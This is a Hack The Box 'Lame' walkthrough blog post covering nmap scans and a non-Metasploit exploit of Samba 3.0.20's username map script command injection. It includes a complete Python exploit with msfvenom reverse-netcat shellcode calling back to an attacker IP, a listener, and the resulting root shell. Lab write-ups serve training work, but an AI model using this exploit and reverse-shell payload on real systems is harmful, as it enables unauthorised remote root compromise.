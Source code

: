 ```yaml
---
title: Hack The Box - Lame (Without Metasploit)
date: 2021-01-08 17:56:00 +0800
categories: [hackthebox]
tags: [linux, samba]
image:
    path: /assets/images/lame.png
---
```


After completing all 66 boxes in the PWK labs, I decided to move on to TJNull's OSCP list of HackTheBoxes which are said to be similar to the ones in the exams. Fortunately the 12 month VIP Lab code which I won from some event was still usable :) 

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.3 lame.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash
$ nmap -sT -sV -sC -Pn lame.htb                      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:07 EST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.014s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h31m20s, deviation: 3h32m08s, median: 1m19s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-01-08T04:08:43-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.60 seconds
```

# Enumeration

## Port 21 `vsftpd 2.3.4`

Only a few ports to interact with, which is great! Seeing that `vsftpd 2.3.4` is running on port `21`, I instantly remembered of the funny backdoor where sending a `:)` in the username would result in a shell listening on port `6200`. I used `nmap`'s `ftp-vsftpd-backdoor` script and it revealed that the backdoor was no longer there :/

```bash
$ nmap -Pn --script ftp-vsftpd-backdoor -p 21 lame.htb                   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-08 04:41 EST
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.015s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 21.22 seconds
```

## Port 445 `Samba 3.0.20-Debian`

```bash
$ searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
...
```

Using `searchsploit`, we see that there is a `Metasploit` module that targets this version of `samba`. However, I will be attempting the non-Metasploit approach by using this [script](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851) that I found online.

# Exploitation

```python
#!/usr/bin/python

from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python

buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20\x31\x30\x2e\x30"
buf += "\x2e\x30\x2e\x33\x35\x20\x39\x39\x39\x39\x20\x30\x3c"
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"
buf += "\x20"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
```

Before running this script, we will need to install the `pysmb` module, which the script requires.

```bash
$ sudo pip2 install pysmb
```

Next up, as the script says, we will need to generate our shellcode using `msfvenom`.

```bash
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=9999 -f python
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 92 bytes
Final size of python file: 467 bytes
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x61"
buf += b"\x72\x74\x6d\x6b\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x37\x20\x39\x39\x39\x39\x20\x30"
buf += b"\x3c\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d\x6b\x20\x7c"
buf += b"\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d"
buf += b"\x70\x2f\x61\x72\x74\x6d\x6b\x20\x32\x3e\x26\x31\x3b"
buf += b"\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x61\x72\x74\x6d"
buf += b"\x6b"
```

After replacing the shellcode in the script with one we generated, we can start our `nc` listener on port `9999` and run the script.

```bash
$ python samba_usermap_exploit.py lame.htb
```

```bash
$ sudo rlwrap nc -vlnp 9999  
listening on [any] 9999 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.3] 49921
whoami
root
```

</td>
</tr>
</table>

Nice, we instantly got a shell as `root` without having to perform any privilege escalation! Lets try to get a nicer prompt

```bash
python -c "import pty; pty.spawn('/bin/bash')"
root@lame:/root#
```

# user.txt

The user flag is located at `/home/makis`.

```bash
root@lame:/home/makis# cat user.txt
7b12XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@lame:/root# cat root.txt
a608XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !